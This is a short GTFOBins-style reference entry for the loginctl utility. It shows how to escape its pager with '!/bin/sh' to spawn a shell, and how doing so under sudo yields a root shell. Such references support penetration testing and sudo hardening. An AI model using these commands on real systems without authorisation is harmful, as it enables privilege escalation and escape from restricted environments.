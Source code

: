 # GTFOBin: loginctl

This invokes the default pager, which is likely to be `less`, other functions may apply.

This might not work if run by unprivileged users depending on the system configuration.

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
loginctl user-status
!/bin/sh
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo loginctl user-status
!/bin/sh
```
